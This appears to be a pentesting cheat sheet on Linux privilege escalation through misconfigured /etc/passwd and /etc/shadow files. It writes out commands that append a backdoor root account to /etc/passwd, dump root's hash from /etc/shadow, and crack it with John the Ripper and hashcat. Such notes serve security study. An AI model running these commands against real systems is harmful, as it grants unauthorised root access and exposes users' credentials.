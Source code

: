 ### Password Files

#### _/etc/passwd_

The misconfiguration is if we have permissions to edit this file, which we should not have, in which case we will modify it to **add a new root user**.

1.  Create the hash

```bash
openssl passwd Password123
```

2.  Add the hash to the `/etc/passwd` file

```bash
# This is just an example using the output of the previous command.
echo"newroot:$6$rounds=656000$6B8ZJQ4aK7G9P/8c$hx0E6ke7zxz1mUMN6LCyRJp2bV5hEE7EowzjEbLXwO6KZV7Ojo0DWg1lzCjLwWg.0tLGfhFe42NnJ8LMtBzD0:0:0:root:/root:/bin/bash">> /etc/passwd
```

3.  Switch to the new user

```bash
su newroot

# Verify root access
id
```

#### _/etc/shadow_

The misconfiguration is that we should not be able to look the contents of this file, if we can do it then we could see the **hashes for the users and crack them**.

1.  Get the hash out.

```bash
cat /etc/shadow | grep [root_user] > [root_user]_hash.txt
```

2.  Crack the hash

```bash
# John The Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt [root_user]_hash.txt

# Hashcat, we need to isolate the hash part, for example from above hash would be: $6$rounds=656000$6B8ZJQ4aK7G9P/8c$hx0E6ke7zxz1mUMN6LCyRJp2bV5hEE7EowzjEbLXwO6KZV7Ojo0DWg1lzCjLwWg.0tLGfhFe42NnJ8LMtBzD0
hashcat -m 1800 [root_user]_hash.txt /usr/share/wordlists/rockyou.txt
```

3.  Show the password

```bash
# John The Ripper
john --show [root_user]_hash.txt

# Hashcat
hashcat -m 1800 [root_user]_hash.txt /usr/share/wordlists/rockyou.txt --show
```
